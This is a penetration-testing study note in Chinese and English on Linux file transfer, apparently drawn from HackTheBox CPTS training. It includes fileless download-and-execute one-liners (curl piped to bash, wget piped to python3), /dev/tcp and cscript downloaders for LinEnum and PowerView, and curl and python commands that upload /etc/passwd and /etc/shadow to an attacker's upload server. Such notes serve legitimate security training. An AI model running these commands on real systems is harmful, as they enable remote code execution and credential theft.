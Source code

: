 ```yaml
---
tags:
  - 渗透/利用
  - IT/Linux
  - 渗透/CPTS
  - 渗透/后渗透
---
```


## Download

### Base64 Encoding / Decoding

```bash
# Encoding
cat id_rsa |base64 -w 0;echo (或 base64 id_rsa -w 0)

# Decoding
echo -n <base64-sting> | base64 -d > id_rsa
```
 - 注意传输前后确认MD5以保证文件正确传输：`md5sum id_rsa`


### Web Downloads with Wget and cURL

一般：`wget`和`curl`直接下载。

#### Fileless Download with cURL

`curl <url/shell.sh> | bash`
#### Fileless Download with wget

`wget -qO- <url/shell.py> | python3`

- `-O-`：output到标准输出。


### Bash (/dev/tcp)

> As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

#### Connect to the Target Webserver

```shell-session
TimeLess613@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```
- `<>`：双向（或双向读写）重定向
- `3<>`：打开文件描述符3同时进行读取和写入操作


#### HTTP GET Request

```shell-session
TimeLess613@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

```shell-session
TimeLess613@htb[/htb]$ cat <&3
```


### with code

python：
```shell-session
TimeLess613@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

PHP

Ruby

JavaScript and cscript.exe ([based on this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068))
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


VBScript and cscript.exe ([based on this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs))




### scp

> [!note] **Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.








## Upload



### Web Upload

#### Create a Self-Signed Certificate

```shell-session
TimeLess613@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

#### Start Web Server

> [!note] The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

```shell-session
TimeLess613@htb[/htb]$ mkdir https && cd https

TimeLess613@htb[/htb]$ sudo python3 -m pip install --user uploadserver
TimeLess613@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```


#### Upload 

```shell
# One-liner
TimeLess613@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

# Multiple Files
TimeLess613@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
- `--insecure`：因为用的自签名证书。




### scp





## Misc




### LOL

> To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

